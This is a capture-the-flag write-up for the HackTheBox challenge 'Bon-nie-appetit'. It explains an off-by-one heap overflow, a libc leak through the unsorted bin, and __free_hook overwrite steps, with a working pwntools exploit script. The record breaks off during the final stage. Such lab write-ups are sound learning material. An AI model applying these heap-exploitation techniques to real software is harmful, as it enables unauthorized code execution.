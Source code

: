 # Bon-nie-appetit
> Write-up author: jon-brandy

## DESCRIPTION:

<p align="justify">

After the successful hijacking of the D12 spaceship during the Space Pirate mission, 
the crew managed to place a signal transmitter on a vending machine that the Golden Fang's members are using to order 
food from the Supplier Spacecraft of Draeger. Golden Fang's crew's favorite food contains a secret ingredient called "Little Green People0," 
which we do not have further info about. The signal passes through many satellites before it reaches the Supplier, 
so it won't be easy to track the device and the leaked signal. Can you take advantage of it and get control of the Supplier?

</p>

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/52513364-507f-4862-b911-20fd90a244d5)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9cc12335-b63f-4968-9c1e-d12c16e242aa)


2. Decompiling the binary and reviewing the main() function, we can identified that the program has 5 menus.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/468eeb58-9bfa-4497-96ae-95ba613b8973)

#### MENUS:

```
1. Create chunks.
2. Show chunks.
3. Edit chunks.
4. Delete chunks.
5. Terminate program.
```

3. Reviewing the new_order() function, looks no bug resides here. It validates the maximum orders we can allocate is only 20 orders.
4. It accepts 2 datas, those are **size** and **contents**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7cc5f713-f55b-41e9-bfbf-0b224d948926)


5. Reviewing the show_order() function, seems there is no bug again. It accepts index and shows the chunk's content at that index.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/eb40e0bd-0128-478a-86e7-1cff60abc231)


6. Reviewing the edit_order() function, we found a bug. Noticed it uses **strlen()** as the length of our input.
7. Remembering in C there is a NULL BYTE data, hence it's introduces a heap overflow using `OFF-ONE-BYTE` vulnerability.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2d6281b6-0ad8-4a3d-bd92-354364eca94b)


#### NOTES:

```
To trigger the overflow, we just need to fill the content to the fullest of it's size. For example if we edit the size to 0x60,
then we fill the content's up to 0x60, so there is an overflow because of the null-byte after it.

Remembering heap chunks are stored adjacent, if overflow occurs then current chunks will take the next chunk's
size into account. (we can creating a fake size field).
```

8. Next, reviewing the delete_order() function, seems no use after free bug. The freed chunks are set to NULL.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cd398815-7ced-4ef7-96f8-89df916b8f3d)


9. Great! Seems our interest should be at **edit_order()**.
10. Let's leak a libc first by allocate size outside of fastbin range. When the chunk freed, it shall resides at the unsorted bin.
11. To make sure our chunk falls at unsortedbin, let's allocate size in range of largebins.

### LEAK LIBC ADDRESS IN UNSORTED BIN

- To be able for libc address disclosed at the unsorted bins we need to allocate sizes outside the fastbin ranges.
- The simplest method to make sure the chunks are stored in unsorted bins after freed, simply allocate sizes of largebins.
- BUT remember to allocate another chunk after it to prevent consolidation with the top chunk.

> FLOW

```
allocate 0x428 (so the size field is 0x430)
allocate 24 (just to prevent consolidation with the top chunk)
free index 0 (at this phase, libc is shown at the unsorted bins)
free index 1
allocate 0x428
show contents at index 0
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e25ce249-262d-4a0d-8da5-9f8e2de2d456)


12. Great! Now let's unpack and calculate the libc base using **vmmap**.

> SCRIPT

```py
from pwn import *
import os

os.system('clear')

exe = './bon-nie-appetit'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def make(size, data):
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(size))
    sh.sendlineafter(b':', data)

def show(index):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', str(index))

def edit(index, data):
    sh.sendlineafter(b'>', b'3')
    sh.sendlineafter(b':', str(index))
    sh.sendlineafter(b':', data)

def delete(index):
    sh.sendlineafter(b'>', b'4')
    sh.sendlineafter(b':', str(index))

def finalize():
    sh.sendlineafter(b'>', b'5') 

sh = start()

# leak libc
make(0x428, b'A') # size field 0x430
make(24, b'B') 
delete(0) # delete chunk idx 0
delete(1) # delete chunk idx 1
make(0x428, b'') 
show(0)

sh.recvuntil(b"=> ")
get = unpack(sh.recv(6) + b'\x00' * 2)
log.info(f'libc leak --> {hex(get)}')

libc.address = get - 4111370
success(f'LIBC BASE --> {hex(libc.address)}')

gdb.attach(sh)
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fda5a6fd-8953-4acf-a143-eb21162bfe8e)


13. Nice! Now let's move our interest to the **Off-One-Byte (OOB)** bug we found earlier.
14. To make it works, let's delete the chunk at index 0 first, then starts allocating 3 chunks adjacently.
15. To make sure the size fits well for **/bin/sh** strings and **libc.sym.system**, let's allocate for **0x38** --> 0x40 as it's size field.

### EXPLOITING OOB BUG

- So the flow is quite simple here, we need to allocate 3 chunks adjacently.
- Then using the OOB bug to overflow from chunk 0 to it's next chunk (chunk 1), so chunk 1 size_field shallc change to whatever we want, for example we're gonna set the size field to 0x81.

> FLOW

```
delete chunk 0 (we want to remove the previously allocated size which we use to leak the libc address).
allocate 0x38 chunk with contents fills it up. (should be stored at index 0)
allocate 0x38 chunk with contents fills it up. (should be stored at index 1)
allocate 0x38 chunk with contents fills it up. (should be stored at index 2)
edit chunk for index 0 (triggering the OOB bug) --> gonna make a fake size field for chunk 2.
```

> SCRIPT

```py
delete(0) # remove data at chunk 0
make(0x28, b'X' * 0x28) # allocate new data at chunk 0
make(0x28, b'Y' * 0x28) # allocate new data at chunk 1
make(0x28, b'Z' * 0x28) # allocate new data at chunk 2

edit(0, b'M' * 0x28 + p8(0x81)) # overflow chunk 0 until and overlap the size field of chunk 2 to 0x81
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b11603b3-d093-40c0-b157-bf2341766444)


16. Noticed the size field of chunk 1 (is number 2 logically) changed to our preferences.

### OVERLAP FD POINTER TO __FREE_HOOK() and Overwrite it to system()

- In this condition, the bigger chunk (0x81) can be used to overlap the `FD Pointer` of the chunk at index 2 to `__free_hook()`.
- At the process of that overlap, we can specify another fake size field to 0x21, this size_field FD is __free_hook().
- Then we can start allocate /bin/sh strings with size of 0x28 and allocate system() with size of 0x28.
- Finally just free chunk index 0, to trigger system"/bin/sh").

> FLOW

```
delete chunk index 1
delete chunk index 2
allocate 0x78, send pad * 0x28 + pack(0x21) --> for fake size field again + __free_hook() --> for it's FD
```

